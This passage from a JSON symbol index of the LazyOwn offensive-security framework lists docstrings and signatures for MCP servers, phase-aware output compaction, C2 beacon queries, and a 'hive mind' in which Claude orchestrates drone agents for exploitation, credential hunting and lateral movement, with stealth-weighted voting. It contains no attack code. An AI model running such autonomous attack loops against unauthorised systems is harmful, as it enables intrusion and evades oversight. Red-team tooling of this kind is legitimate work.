__init__(self, lazyown_dir, timeout)"}, {"doc": "Execute a single LazyOwn command string.\n\nArgs:\n    command: The command to run (e.g., \"lazynmap\" or \"set rhost 10.10.11.5\").\n    timeout: Seconds before killing the process. Defaults to constructor value.\n\nReturns:\n    An ExecutionResult with stdout, stderr, and metadata.", "kind": "method", "line": 77, "name": "execute", "signature": "def execute(self, command, timeout)"}, {"doc": "Execute multiple commands in a single LazyOwn session.\n\nArgs:\n    commands: List of command strings.\n    timeout: Total timeout for the entire batch.\n\nReturns:\n    An ExecutionResult with combined output.", "kind": "method", "line": 98, "name": "execute_batch", "signature": "def execute_batch(self, commands, timeout)"}, {"doc": "Execute via subprocess.Popen with PTY when available.", "kind": "method", "line": 114, "name": "_run_via_subprocess", "signature": "def _run_via_subprocess(self, command, timeout)"}, {"doc": "Run without PTY (fallback for constrained environments).", "kind": "method", "line": 149, "name": "_run_without_pty", "signature": "def _run_without_pty(self, argv, command, timeout, env)"}, {"doc": "Run with PTY for proper cmd2 shell handling.", "kind": "method", "line": 177, "name": "_run_with_pty", "signature": "def _run_with_pty(self, argv, command, timeout, env)"}, {"doc": "Return True if the platform supports PTY subprocesses.", "kind": "method", "line": 229, "name": "_has_pty", "signature": "def _has_pty(self)"}]}, {"doc": "Hermes-native synchronization layer.  Bridges LazyOwn session state with Hermes agent primitives: - todo list sync (Hermes todo tool <-> objectives.jsonl) - checkpoint serialization for resume across turns - delegation hints for parallel intel gathering  Follows the Observer pattern: LazyOwn state changes are observed and reflected into Hermes-native constructs.", "id": "skills/hermes-lazyown/hermes_sync.py", "kind": "module", "label": "hermes_sync.py", "language": "py", "sha256": "ed0b900e1c092332", "symbol_count": 14, "symbols": [{"doc": "Raised when a sync operation cannot complete.", "kind": "class", "line": 21, "name": "HermesSyncError", "signature": "class HermesSyncError(Exception)"}, {"doc": "Serialize the current engagement state into a compact checkpoint\nthat Hermes can inject at the start of a new turn.", "kind": "class", "line": 27, "name": "CheckpointSerializer", "signature": "class CheckpointSerializer"}, {"doc": "Bidirectional sync between LazyOwn objectives and Hermes todo items.\n\nLazyOwn objectives are stored in objectives.jsonl (append-only JSON lines).\nHermes todo items are ephemeral per-turn. This bridge allows the agent\nto surface LazyOwn objectives as Hermes todos and ack them back.", "kind": "class", "line": 73, "name": "ObjectiveTodoSync", "signature": "class ObjectiveTodoSync"}, {"doc": "Produces structured delegation plans that Hermes can execute via\ndelegate_task or cronjob.\n\nGiven a discovery (e.g., new service found), returns a list of\nparallel subtasks suitable for Hermes-native delegation.", "kind": "class", "line": 145, "name": "DelegationPlanner", "signature": "class DelegationPlanner"}, {"kind": "method", "line": 33, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Write a checkpoint to disk.", "kind": "method", "line": 37, "name": "write", "signature": "def write(self, state)"}, {"doc": "Read the latest checkpoint, or None if absent / stale.", "kind": "method", "line": 49, "name": "read", "signature": "def read(self)"}, {"doc": "Remove the checkpoint file.", "kind": "method", "line": 64, "name": "clear", "signature": "def clear(self)"}, {"kind": "method", "line": 82, "name": "__init__", "signature": "def __init__(self, objectives_path)"}, {"doc": "Return all pending objectives from objectives.jsonl.", "kind": "method", "line": 85, "name": "pending_objectives", "signature": "def pending_objectives(self)"}, {"doc": "Mark an objective as done by appending a completion record.\n\nLazyOwn objectives.jsonl is append-only; we do not mutate existing\nlines. Instead we append a new line with status=done referencing\nthe original text.", "kind": "method", "line": 106, "name": "mark_done", "signature": "def mark_done(self, objective_text)"}, {"doc": "Inject a new objective into the LazyOwn queue.", "kind": "method", "line": 127, "name": "inject_objective", "signature": "def inject_objective(self, text, priority, notes)"}, {"doc": "Return a list of delegation task descriptors for a discovered service.\n\nEach descriptor has keys: goal, context, toolsets.", "kind": "method", "line": 154, "name": "plan_for_service", "signature": "def plan_for_service(self, service, port, rhost)"}, {"doc": "Return delegation tasks triggered by a newly found credential.", "kind": "method", "line": 233, "name": "plan_for_credential", "signature": "def plan_for_credential(self, cred_type, value, rhost)"}]}, {"doc": "Hermes-native MCP server for LazyOwn.  Provides a compact, namespaced tool surface optimized for Hermes agent context windows. Auto-detects Hermes sessions and adapts descriptions, output compaction, and rule generation accordingly.  Usage: python3 skills/hermes-lazyown/mcp_server.py  This server does NOT replace skills/lazyown_mcp.py; it complements it with a Hermes-optimized subset.", "id": "skills/hermes-lazyown/mcp_server.py", "kind": "module", "label": "mcp_server.py", "language": "py", "sha256": "4afbd885b4f97132", "symbol_count": 28, "symbols": [{"kind": "function", "line": 45, "name": "_get_config", "signature": "def _get_config()"}, {"kind": "function", "line": 52, "name": "_get_compactor", "signature": "def _get_compactor()"}, {"kind": "function", "line": 60, "name": "_get_executor", "signature": "def _get_executor()"}, {"kind": "function", "line": 68, "name": "_get_checkpoint_serializer", "signature": "def _get_checkpoint_serializer()"}, {"kind": "function", "line": 75, "name": "_get_objective_sync", "signature": "def _get_objective_sync()"}, {"kind": "function", "line": 82, "name": "_get_delegation_planner", "signature": "def _get_delegation_planner()"}, {"doc": "Compact an ExecutionResult based on the current phase.", "kind": "function", "line": 92, "name": "_compact", "signature": "def _compact(result, phase, tool_name)"}, {"doc": "Try to import a LazyOwn module; return None on failure.", "kind": "function", "line": 101, "name": "_try_import_lazyown_module", "signature": "def _try_import_lazyown_module(module_name)"}, {"doc": "Return a description string, truncated when running under Hermes.", "kind": "function", "line": 120, "name": "_desc", "signature": "def _desc(base)"}, {"kind": "function", "line": 329, "name": "list_tools", "signature": "def list_tools()"}, {"doc": "Dispatch incoming tool calls to the appropriate handler.", "kind": "function", "line": 334, "name": "call_tool", "signature": "def call_tool(name, arguments)"}, {"doc": "Route tool names to their handlers.", "kind": "function", "line": 346, "name": "_handle_tool", "signature": "def _handle_tool(name, arguments)"}, {"doc": "Build a structured SITREP from payload.json and session files.", "kind": "function", "line": 395, "name": "_core_session_init", "signature": "def _core_session_init(arguments)"}, {"doc": "Update payload.json with a single key-value pair.", "kind": "function", "line": 441, "name": "_core_set_config", "signature": "def _core_set_config(arguments)"}, {"doc": "Execute a LazyOwn command and return compacted output.", "kind": "function", "line": 464, "name": "_core_run_command", "signature": "def _core_run_command(arguments)"}, {"doc": "Return help for a LazyOwn command via AST extraction (no shell spawn).", "kind": "function", "line": 480, "name": "_core_command_help", "signature": "def _core_command_help(arguments)"}, {"doc": "Show structured facts from session files.", "kind": "function", "line": 512, "name": "_intel_facts_show", "signature": "def _intel_facts_show(arguments)"}, {"doc": "Ask the LazyOwn recommender for next commands.", "kind": "function", "line": 546, "name": "_intel_recommend_next", "signature": "def _intel_recommend_next()"}, {"doc": "Search multiple exploit sources.", "kind": "function", "line": 562, "name": "_intel_searchsploit", "signature": "def _intel_searchsploit(arguments)"}, {"doc": "Run the autonomous attack loop.", "kind": "function", "line": 591, "name": "_auto_loop", "signature": "def _auto_loop(arguments)"}, {"doc": "Inject an objective into the LazyOwn queue.", "kind": "function", "line": 611, "name": "_auto_inject_objective", "signature": "def _auto_inject_objective(arguments)"}, {"doc": "Write a checkpoint for Hermes resume.", "kind": "function", "line": 638, "name": "_hermes_checkpoint_write", "signature": "def _hermes_checkpoint_write(arguments)"}, {"doc": "Read the latest checkpoint.", "kind": "function", "line": 648, "name": "_hermes_checkpoint_read", "signature": "def _hermes_checkpoint_read()"}, {"doc": "Generate dynamic rules for the current context.", "kind": "function", "line": 659, "name": "_hermes_rules_generate", "signature": "def _hermes_rules_generate(arguments)"}, {"doc": "Generate parallel task descriptors for delegate_task.", "kind": "function", "line": 677, "name": "_hermes_delegate_plan", "signature": "def _hermes_delegate_plan(arguments)"}, {"doc": "Check C2 server reachability.", "kind": "function", "line": 706, "name": "_c2_status", "signature": "def _c2_status()"}, {"doc": "List connected beacons via C2 API.", "kind": "function", "line": 727, "name": "_c2_get_beacons", "signature": "def _c2_get_beacons()"}, {"kind": "function", "line": 751, "name": "main", "signature": "def main()"}]}, {"doc": "Phase-aware output compaction for the Hermes-LazyOwn integration.  Security tools produce verbose output. Hermes context windows are finite. This module compacts tool output based on the current engagement phase, preserving only the signal and discarding noise.  Follows the Strategy pattern: each phase implements a CompactionStrategy.", "id": "skills/hermes-lazyown/output_compactor.py", "kind": "module", "label": "output_compactor.py", "language": "py", "sha256": "69cb0a5d50e26a70", "symbol_count": 20, "symbols": [{"doc": "Immutable result of a compaction operation.", "kind": "class", "line": 17, "name": "CompactionResult", "signature": "class CompactionResult"}, {"doc": "Base class for phase-specific compaction strategies.", "kind": "class", "line": 36, "name": "CompactionStrategy", "signature": "class CompactionStrategy(ABC)"}, {"doc": "Recon phase: preserve only open ports, services, and OS guesses.\nStrip script output, traceroute, and timing details.", "kind": "class", "line": 45, "name": "ReconCompaction", "signature": "class ReconCompaction(CompactionStrategy)"}, {"doc": "Enumeration phase: preserve findings that are new compared to a snapshot.\nDeduplicate against known services and only highlight changes.", "kind": "class", "line": 80, "name": "EnumCompaction", "signature": "class EnumCompaction(CompactionStrategy)"}, {"doc": "Exploitation phase: preserve only success/failure and access level gained.\nDiscard exploit noise, shell banners, and download progress.", "kind": "class", "line": 111, "name": "ExploitCompaction", "signature": "class ExploitCompaction(CompactionStrategy)"}, {"doc": "Privilege escalation phase: preserve vectors found and commands executed.", "kind": "class", "line": 140, "name": "PrivescCompaction", "signature": "class PrivescCompaction(CompactionStrategy)"}, {"doc": "Default pass-through with line-cap enforcement.", "kind": "class", "line": 162, "name": "DefaultCompaction", "signature": "class DefaultCompaction(CompactionStrategy)"}, {"doc": "Phase-aware output compactor.\n\nUsage:\n    compactor = OutputCompactor()\n    result = compactor.compact(raw_nmap_output, phase=\"recon\", tool_name=\"lazynmap\")\n    print(result.comparted)", "kind": "class", "line": 179, "name": "OutputCompactor", "signature": "class OutputCompactor"}, {"kind": "method", "line": 20, "name": "__init__", "signature": "def __init__(self, compacted, original_lines, compacted_lines)"}, {"doc": "Return the ratio of lines removed (0.0 to 1.0).", "kind": "method", "line": 26, "name": "reduction_ratio", "signature": "def reduction_ratio(self)"}, {"kind": "method", "line": 32, "name": "__str__", "signature": "def __str__(self)"}, {"doc": "Compact *raw_output* and return a CompactionResult.", "kind": "method", "line": 40, "name": "compact", "signature": "def compact(self, raw_output, tool_name)"}, {"kind": "method", "line": 55, "name": "compact", "signature": "def compact(self, raw_output, tool_name)"}, {"kind": "method", "line": 93, "name": "compact", "signature": "def compact(self, raw_output, tool_name)"}, {"kind": "method", "line": 124, "name": "compact", "signature": "def compact(self, raw_output, tool_name)"}, {"kind": "method", "line": 151, "name": "compact", "signature": "def compact(self, raw_output, tool_name)"}, {"kind": "method", "line": 165, "name": "__init__", "signature": "def __init__(self, max_lines)"}, {"kind": "method", "line": 168, "name": "compact", "signature": "def compact(self, raw_output, tool_name)"}, {"kind": "method", "line": 196, "name": "__init__", "signature": "def __init__(self, default_max_lines)"}, {"doc": "Compact *raw_output* according to *phase*.\n\nArgs:\n    raw_output: The raw tool output string.\n    phase: One of the PhaseNames values.\n    tool_name: Optional tool name for context in the summary.\n\nReturns:\n    A CompactionResult with the compacted output and metadata.", "kind": "method", "line": 200, "name": "compact", "signature": "def compact(self, raw_output, phase, tool_name)"}]}, {"doc": "skills/hive_mind.py — LazyOwn Borg Hive Mind ============================================== Multi-agent cognitive architecture where Claude (MCP) is the Queen/Mainframe and Groq/Ollama agents are satellite drones executing in parallel.  Architecture ------------ HiveMemory      — Unified ChromaDB (semantic) + SQLite (episodic) + Parquet (long-term) QueenBrain      — Orchestrator: plan -> delegate -> synthesize (Claude is here via MCP) DronePool       — Parallel Groq/Ollama agents with specialised roles HiveBus         — In-memory message bus between queen and drones HiveMind        — Top-level coordinator, exposed as MCP tools  Memory layers ------------- working    — current task context (dict in memory, shared via bus) episodic   — SQLite FTS5: events, commands, outcomes per session semantic   — ChromaDB vectors: similarity search across all agents longterm   — Parquet: compressed historical knowledge  Drone roles ----------- recon      — host/port/service discovery exploit    — vulnerability analysis and exploitation analyze    — log/output analysis, pattern detection cred       — credential hunting and cracking lateral    — lateral movement and pivoting report     — synthesis and documentation", "id": "skills/hive_mind.py", "kind": "module", "label": "hive_mind.py", "language": "py", "sha256": "5bcda7d7d7dfb92a", "symbol_count": 107, "symbols": [{"doc": "Return the embedding model. Imports sentence_transformers + loads model\non first call. Thread-safe. Returns None if unavailable.", "kind": "function", "line": 108, "name": "_get_embed_model", "signature": "def _get_embed_model()"}, {"doc": "Read-only contract for memory stores.", "kind": "class", "line": 145, "name": "IReadableMemory", "signature": "class IReadableMemory(ABC)"}, {"doc": "Write-only contract for memory stores.", "kind": "class", "line": 153, "name": "IWritableMemory", "signature": "class IWritableMemory(ABC)"}, {"doc": "Combined readable + writable memory store.\n\nConcrete subclasses (EpisodicStore, SemanticStore, LongtermStore) all\nsatisfy the Liskov Substitution Principle — they can replace each other\nin any context that expects IMemoryStore.", "kind": "class", "line": 161, "name": "IMemoryStore", "signature": "class IMemoryStore(IReadableMemory, IWritableMemory)"}, {"doc": "Contract for executing a LazyOwn shell command and returning its output.", "kind": "class", "line": 171, "name": "ICommandRunner", "signature": "class ICommandRunner(ABC)"}, {"doc": "SQLite-backed episodic memory with FTS5 full-text search.\n\nResponsible for: schema creation, insert, FTS keyword recall, forget.\nNothing else.", "kind": "class", "line": 189, "name": "EpisodicStore", "signature": "class EpisodicStore(IMemoryStore)"}, {"doc": "ChromaDB-backed vector similarity store.\n\nFalls back to the provided episodic_fallback when ChromaDB is unavailable.\nResponsible for: embedding, upsert into ChromaDB, similarity recall.\nNothing else.", "kind": "class", "line": 349, "name": "SemanticStore", "signature": "class SemanticStore(IMemoryStore)"}, {"doc": "Read-only keyword recall from Parquet knowledge files.\n\nstore() is a no-op (Parquet files are managed by lazyown_parquet_db).\nResponsible for: delegating keyword search to lazyown_parquet_db.\nNothing else.", "kind": "class", "line": 506, "name": "LongtermStore", "signature": "class LongtermStore(IMemoryStore)"}, {"doc": "Factory that creates HiveMemory with the default three-layer backend.\n\nCallers that need a custom configuration can construct each store\nexplicitly and pass them to HiveMemory directly.", "kind": "function", "line": 558, "name": "build_default_hive_memory", "signature": "def build_default_hive_memory(db_path)"}, {"doc": "Unified three-layer memory shared across all hive agents.\n\nComposes EpisodicStore, SemanticStore, and LongtermStore.\nHandles cross-layer deduplication in recall().\n\nDependency Inversion: concrete backends are injected via __init__.\nOpen/Closed: add new backends by passing extra IMemoryStore instances.", "kind": "class", "line": 571, "name": "HiveMemory", "signature": "class HiveMemory"}, {"doc": "A message on the hive bus.", "kind": "class", "line": 717, "name": "HiveMessage", "signature": "class HiveMessage"}, {"doc": "Simple thread-safe in-process message bus.\nAgents subscribe to their own mailbox (recipient == agent_id or \"*\").\n\nSingle Responsibility: only message passing.", "kind": "class", "line": 728, "name": "HiveBus", "signature": "class HiveBus"}, {"doc": "A single vote cast by a drone role during consensus evaluation.", "kind": "class", "line": 902, "name": "ConsensusVote", "signature": "class ConsensusVote"}, {"doc": "Multi-drone voting gate for high-risk actions.\n\nBefore a high-risk task (exploit, lateral, credential dump) is dispatched,\nthe queen polls a panel of virtual voters — one per specialised role — and\nonly proceeds when the weighted approval meets the required quorum.\n\nVoting model\n------------\n- stealth_specialist : votes based on detection risk (approves if risk < threshold)\n- privesc_hunter     : votes based on whether current access level justifies the move\n- architect          : votes based on strategic alignment with current phase\n\nThe detection risk estimate uses DetectionRiskAssessor when available,\nfalling back to a static heuristic table.\n\nDesign\n------\n- Single Responsibility : voting logic only; no drone spawning\n- Open/Closed           : new voter roles added without modifying existing code\n- Dependency Inversion  : DetectionRiskAssessor injected, not constructed here", "kind": "class", "line": 911, "name": "ConsensusProtocol", "signature": "class ConsensusProtocol"}, {"doc": "Mutable state record for a single drone instance.", "kind": "class", "line": 1066, "name": "DroneState", "signature": "class DroneState"}, {"doc": "A satellite agent running on Groq or Ollama.\nReports back to hive memory on completion.\n\nDependency Inversion: accepts an optional ICommandRunner for testability.", "kind": "class", "line": 1083, "name": "DroneAgent", "signature": "class DroneAgent"}, {"doc": "Return one of 'ad', 'exploit', 'enum', 'generic' based on goal keywords.", "kind": "function", "line": 1277, "name": "_classify_objective", "signature": "def _classify_objective(goal)"}, {"doc": "The queen orchestrates the hive:\n  1. plan(goal)          — decompose into drone tasks\n  2. dispatch(tasks)     — spawn drones in parallel\n  3. collect(ids)        — wait and aggregate results\n  4. synthesize(results) — final summary written to hive memory\n\nSingle Responsibility: orchestration only.\nDependency Inversion: memory, bus, pool all injected.", "kind": "class", "line": 1289, "name": "QueenBrain", "signature": "class QueenBrain"}, {"doc": "SQLite persistence layer for DroneState records.\n\nResponsible for: creating the drone_states table, upsert, load, and\nmarking interrupted states on restart. Nothing else.\n\nUses the same hive_memory.db as EpisodicStore but opens its own\nconnection to avoid lock contention.\n\nOn process restart, any drone whose status was 'queued' or 'running'\nis marked 'interrupted' so callers can re-queue them explicitly.", "kind": "class", "line": 1481, "name": "DroneStateStore", "signature": "class DroneStateStore"}, {"doc": "Registry of all spawned drones with their state and threads.\n\nSingle Responsibility: spawn, track, and query drones.\nDependency Inversion: accepts optional DroneStateStore for persistence.\n\nOn construction, calls state_store.mark_interrupted() so any in-flight\ndrones from a previous process are cleanly labelled. Then loads the full\nhistory into _history for status queries without re-running them.", "kind": "class", "line": 1661, "name": "DronePool", "signature": "class DronePool"}, {"doc": "Top-level hive coordinator.\nSingleton — use get_hive() to obtain the instance.", "kind": "class", "line": 1812, "name": "HiveMind", "signature": "class HiveMind"}, {"doc": "Return the process-wide HiveMind singleton, creating it if necessary.", "kind": "function", "line": 1911, "name": "get_hive", "signature": "def get_hive()"}, {"doc": "Spawn one or more hive drones for a goal.\nIf n_drones > 1 or role == 'auto', queen plans and dispatches a full squad.", "kind": "function", "line": 1926, "name": "mcp_hive_spawn", "signature": "def mcp_hive_spawn(goal, role, n_drones, backend, max_iterations, api_key)"}, {"doc": "Return full hive status: active drones, memory stats, queen mailbox.", "kind": "function", "line": 1976, "name": "mcp_hive_status", "signature": "def mcp_hive_status()"}, {"doc": "Semantic + episodic + longterm recall from hive memory.", "kind": "function", "line": 1981, "name": "mcp_hive_recall", "signature": "def mcp_hive_recall(query, top_k)"}, {"doc": "Queen generates task decomposition without spawning drones.", "kind": "function", "line": 1995, "name": "mcp_hive_plan", "signature": "def mcp_hive_plan(goal, n_drones)"}, {"doc": "Get result from a specific drone.", "kind": "function", "line": 2004, "name": "mcp_hive_result", "signature": "def mcp_hive_result(drone_id)"}, {"doc": "Wait for drones to finish and return synthesized result.\ndrone_ids_csv: comma-separated drone IDs.", "kind": "function", "line": 2010, "name": "mcp_hive_collect", "signature": "def mcp_hive_collect(drone_ids_csv, goal)"}, {"doc": "Prune hive memory. Removes entries older than N hours, optionally filtered by topic.", "kind": "function", "line": 2021, "name": "mcp_hive_forget", "signature": "def mcp_hive_forget(older_than_hours, topic)"}, {"doc": "Re-queue all drones that were interrupted by a previous process crash/restart.\nReturns the list of new drone_ids that were re-spawned.", "kind": "function", "line": 2027, "name": "mcp_hive_recover", "signature": "def mcp_hive_recover(backend, api_key, max_iterations)"}, {"kind": "function", "line": 2074, "name": "_cli", "signature": "def _cli()"}, {"doc": "Return top_k items matching query.", "kind": "method", "line": 149, "name": "recall", "signature": "def recall(self, query, top_k)"}, {"doc": "Persist content and return an opaque event_id.", "kind": "method", "line": 157, "name": "store", "signature": "def store(self, content)"}, {"doc": "Execute command within timeout seconds and return text output.", "kind": "method", "line": 175, "name": "run", "signature": "def run(self, command, timeout)"}, {"doc": "Human-readable identifier for this runner.", "kind": "method", "line": 180, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 215, "name": "__init__", "signature": "def __init__(self, db_path)"}, {"kind": "method", "line": 220, "name": "_connect", "signature": "def _connect(self)"}, {"doc": "Insert a row into hive_events and return event_id.", "kind": "method", "line": 235, "name": "store", "signature": "def store(self, content, agent_id, role, event_type, meta, session_tag)"}, {"doc": "Strip FTS5 special chars (dots, colons, brackets, etc.) that cause syntax errors.", "kind": "method", "line": 266, "name": "_sanitize_fts", "signature": "def _sanitize_fts(query)"}, {"doc": "Keyword search via FTS5. Optionally filter by role or event_type.", "kind": "method", "line": 274, "name": "recall", "signature": "def recall(self, query, top_k, role, event_type)"}, {"doc": "Return row counts for status reporting.", "kind": "method", "line": 322, "name": "stats", "signature": "def stats(self)"}, {"doc": "Delete old or topic-matching rows. Returns rows deleted.", "kind": "method", "line": 329, "name": "forget", "signature": "def forget(self, older_than_hours, topic)"}, {"kind": "method", "line": 358, "name": "__init__", "signature": "def __init__(self, chroma_dir, episodic_fallback)"}, {"kind": "method", "line": 366, "name": "_init_chroma", "signature": "def _init_chroma(self, chroma_dir)"}, {"doc": "True when ChromaDB is operational.", "kind": "method", "line": 380, "name": "available", "signature": "def available(self)"}, {"doc": "Add a document to ChromaDB. Returns the event_id used.", "kind": "method", "line": 386, "name": "store", "signature": "def store(self, content, agent_id, role, event_type, meta, session_tag, event_id)"}, {"doc": "Vector similarity search. Falls back to episodic FTS if unavailable.", "kind": "method", "line": 434, "name": "recall", "signature": "def recall(self, query, top_k, where)"}, {"doc": "Return number of vectors stored.", "kind": "method", "line": 477, "name": "count", "signature": "def count(self)"}, {"kind": "method", "line": 488, "name": "_embed", "signature": "def _embed(self, text)"}, {"doc": "Parquet store is read-only from here. Returns empty string.", "kind": "method", "line": 515, "name": "store", "signature": "def store(self, content)"}, {"doc": "Keyword search across Parquet knowledge files.", "kind": "method", "line": 519, "name": "recall", "signature": "def recall(self, query, top_k)"}, {"kind": "method", "line": 582, "name": "__init__", "signature": "def __init__(self, stores, episodic, semantic, longterm)"}, {"doc": "Store content in all writable layers.\n\nReturns the event_id from the first store (episodic).\nThe same id is forwarded to semantic so ChromaDB and SQLite stay aligned.", "kind": "method", "line": 596, "name": "store", "signature": "def store(self, content, agent_id, role, event_type, meta, session_tag)"}, {"doc": "Keyword search across hive episodic memory.", "kind": "method", "line": 633, "name": "recall_episodic", "signature": "def recall_episodic(self, query, top_k, role, event_type)"}, {"doc": "Vector similarity search in ChromaDB.", "kind": "method", "line": 647, "name": "recall_semantic", "signature": "def recall_semantic(self, query, top_k, where)"}, {"doc": "Keyword search across Parquet knowledge files.", "kind": "method", "line": 660, "name": "recall_longterm", "signature": "def recall_longterm(self, query, top_k)"}, {"doc": "Unified recall: semantic (ChromaDB) + episodic (SQLite) + longterm (Parquet).\nDeduplicates by content hash.", "kind": "method", "line": 668, "name": "recall", "signature": "def recall(self, query, top_k)"}, {"doc": "Return combined statistics from all layers.", "kind": "method", "line": 694, "name": "stats", "signature": "def stats(self)"}, {"doc": "Prune old or topic-matched entries. Returns number pruned.", "kind": "method", "line": 704, "name": "forget", "signature": "def forget(self, older_than_hours, topic)"}, {"kind": "method", "line": 736, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Deliver msg to recipient mailbox (and to \"*\" broadcast).", "kind": "method", "line": 740, "name": "publish", "signature": "def publish(self, msg)"}, {"doc": "Drain mailbox for agent_id (includes broadcast).", "kind": "method", "line": 746, "name": "receive", "signature": "def receive(self, agent_id, max_msgs)"}, {"doc": "Mark a broadcast message as seen by agent_id (minimal bus — no-op).", "kind": "method", "line": 754, "name": "ack_broadcast", "signature": "def ack_broadcast(self, agent_id, msg_id)"}, {"doc": "Count messages waiting for agent_id.", "kind": "method", "line": 758, "name": "pending_count", "signature": "def pending_count(self, agent_id)"}, {"kind": "method", "line": 943, "name": "__init__", "signature": "def __init__(self, risk_assessor)"}, {"doc": "Run the consensus vote for the given (role, goal) pair.\n\nReturns\n-------\n(approved: bool, votes: List[ConsensusVote], summary: str)", "kind": "method", "line": 946, "name": "evaluate", "signature": "def evaluate(self, role, goal)"}, {"kind": "method", "line": 975, "name": "_stealth_vote", "signature": "def _stealth_vote(self, detection_risk)"}, {"kind": "method", "line": 989, "name": "_privesc_hunter_vote", "signature": "def _privesc_hunter_vote(role, goal)"}, {"kind": "method", "line": 1004, "name": "_architect_vote", "signature": "def _architect_vote(role, goal)"}, {"kind": "method", "line": 1032, "name": "_estimate_detection_risk", "signature": "def _estimate_detection_risk(self, role, goal)"}, {"doc": "Weight votes by role importance:\n  stealth_specialist : 0.40 (detection risk is paramount)\n  privesc_hunter     : 0.30 (operational expertise)\n  architect          : 0.30 (strategic alignment)", "kind": "method", "line": 1041, "name": "_weighted_approval", "signature": "def _weighted_approval(votes)"}, {"kind": "method", "line": 1091, "name": "__init__", "signature": "def __init__(self, drone_id, role, goal, backend, memory, bus, max_iterations, api_key, model, runner, on_state_change)"}, {"doc": "Fire the on_state_change callback if registered.", "kind": "method", "line": 1120, "name": "_persist", "signature": "def _persist(self)"}, {"doc": "Spawn the drone thread.", "kind": "method", "line": 1128, "name": "start", "signature": "def start(self)"}, {"doc": "Block until the drone thread finishes.", "kind": "method", "line": 1137, "name": "join", "signature": "def join(self, timeout)"}, {"kind": "method", "line": 1142, "name": "_run", "signature": "def _run(self)"}, {"doc": "Pull relevant memories to seed this drone's context.", "kind": "method", "line": 1212, "name": "_build_hive_context", "signature": "def _build_hive_context(self)"}, {"kind": "method", "line": 1223, "name": "_build_system_prompt", "signature": "def _build_system_prompt(self, tool_names, hive_ctx)"}, {"kind": "method", "line": 1240, "name": "_load_payload_key", "signature": "def _load_payload_key()"}, {"kind": "method", "line": 1301, "name": "__init__", "signature": "def __init__(self, memory, bus, pool, consensus)"}, {"doc": "Decompose a high-level goal into per-drone task specs.\nReturns list of {role, goal} dicts.", "kind": "method", "line": 1313, "name": "plan", "signature": "def plan(self, goal, n_drones)"}, {"doc": "Spawn one drone per task in parallel.\n\nHigh-risk roles (exploit, lateral, cred, privesc_hunter) are gated\nthrough the ConsensusProtocol before dispatch.  Tasks that fail\nconsensus are recorded in hive memory but not spawned.\n\nReturns list of drone_ids for approved and spawned drones.", "kind": "method", "line": 1332, "name": "dispatch", "signature": "def dispatch(self, tasks, backend, api_key, max_iterations)"}, {"doc": "Convenience: plan + dispatch in one call.", "kind": "method", "line": 1405, "name": "plan_and_dispatch", "signature": "def plan_and_dispatch(self, goal, n_drones, backend, api_key, max_iterations)"}, {"doc": "Wait for all drones to finish (up to timeout seconds).\nReturns aggregated results dict.", "kind": "method", "line": 1417, "name": "collect", "signature": "def collect(self, drone_ids, timeout, poll_interval)"}, {"doc": "Read hive memory results for these drones and produce a synthesis summary.\nWritten back to hive memory by the queen.", "kind": "method", "line": 1447, "name": "synthesize", "signature": "def synthesize(self, drone_ids, original_goal)"}, {"doc": "Drain queen's mailbox from drone result messages.", "kind": "method", "line": 1471, "name": "read_bus", "signature": "def read_bus(self)"}, {"kind": "method", "line": 1513, "name": "__init__", "signature": "def __init__(self, db_path)"}, {"doc": "Insert or replace a drone state record. Called on every state change.", "kind": "method", "line": 1523, "name": "upsert", "signature": "def upsert(self, state)"}, {"doc": "Load all persisted drone states ordered by most recently updated.", "kind": "method", "line": 1553, "name": "load_all", "signature": "def load_all(self, limit)"}, {"doc": "Called on daemon startup: any drone that was queued/running when the\nprocess died is now in an unknown state. Mark them 'interrupted' so\nthey are visible in status and can be re-queued explicitly.\nReturns number of records updated.", "kind": "method", "line": 1588, "name": "mark_interrupted", "signature": "def mark_interrupted(self)"}, {"doc": "Return all drones currently in 'interrupted' state.", "kind": "method", "line": 1609, "name": "load_interrupted", "signature": "def load_interrupted(self)"}, {"doc": "Prune records older than N days. Returns count deleted.", "kind": "method", "line": 1643, "name": "delete_older_than", "signature": "def delete_older_than(self, days)"}, {"kind": "method", "line": 1673, "name": "__init__", "signature": "def __init__(self, memory, bus, state_store)"}, {"doc": "Load persisted drone states from a previous run.\nIn-flight drones (queued/running) are marked 'interrupted'.\nReturns the number of interrupted drones found.", "kind": "method", "line": 1687, "name": "recover_from_store", "signature": "def recover_from_store(self)"}, {"doc": "Create and start a DroneAgent. Returns drone_id.", "kind": "method", "line": 1708, "name": "spawn", "signature": "def spawn(self, role, goal, backend, api_key, model, max_iterations, runner)"}, {"doc": "Re-spawn all drones previously marked 'interrupted'.\nReturns list of new drone_ids.", "kind": "method", "line": 1741, "name": "requeue_interrupted", "signature": "def requeue_interrupted(self, backend, api_key, max_iterations)"}, {"doc": "Return the current state snapshot for a drone, or None if unknown.", "kind": "method", "line": 1767, "name": "get_state", "signature": "def get_state(self, drone_id)"}, {"doc": "Return a sorted list of drone summary dicts (most recent first).\nIncludes live drones and recovered history from previous runs.", "kind": "method", "line": 1776, "name": "list_all", "signature": "def list_all(self, limit)"}, {"doc": "Return number of live drones currently in queued or running state.", "kind": "method", "line": 1801, "name": "active_count", "signature": "def active_count(self)"}, {"kind": "method", "line": 1818, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Spawn a single drone. Returns drone_id.", "kind": "method", "line": 1829, "name": "spawn", "signature": "def spawn(self, goal, role, backend, api_key, max_iterations)"}, {"doc": "Queen plans and dispatches multiple drones in parallel.", "kind": "method", "line": 1846, "name": "spawn_hive", "signature": "def spawn_hive(self, goal, n_drones, backend, api_key, max_iterations)"}, {"doc": "Return hive-wide status dict including historical drones from previous runs.", "kind": "method", "line": 1863, "name": "status", "signature": "def status(self)"}, {"doc": "Unified recall from all memory layers.", "kind": "method", "line": 1878, "name": "recall", "signature": "def recall(self, query, top_k)"}, {"doc": "Return result dict for a specific drone.", "kind": "method", "line": 1882, "name": "drone_result", "signature": "def drone_result(self, drone_id)"}, {"doc": "Synthesize results from multiple drones.", "kind": "method", "line": 1896, "name": "collect_and_synthesize", "signature": "def collect_and_synthesize(self, drone_ids, goal)"}, {"doc": "Prune hive memory.", "kind": "method", "line": 1900, "name": "forget", "signature": "def forget(self, older_than_hours, topic)"}]}, {"doc": "LazyOwn MCP Auto-Mapper ======================== Discovers LazyOwn extensions at startup and returns MCP Tool definitions + a runtime dispatch table.  Three source types are supported:  